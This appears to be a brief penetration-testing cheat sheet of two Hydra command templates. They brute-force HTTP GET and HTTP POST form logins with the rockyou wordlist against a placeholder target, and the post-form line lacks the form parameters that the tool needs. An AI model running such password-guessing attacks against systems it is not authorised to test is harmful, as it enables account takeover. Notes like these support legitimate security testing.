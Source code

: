 # Hydra Brute-Forcing

hydra -l <user> -P /usr/share/wordlists/rockyou.txt <target_ip> -s <target_port> http-get

hydra -l <user> -P /usr/share/wordlists/rockyou.txt <target_ip> -s <target_port> http-post-form
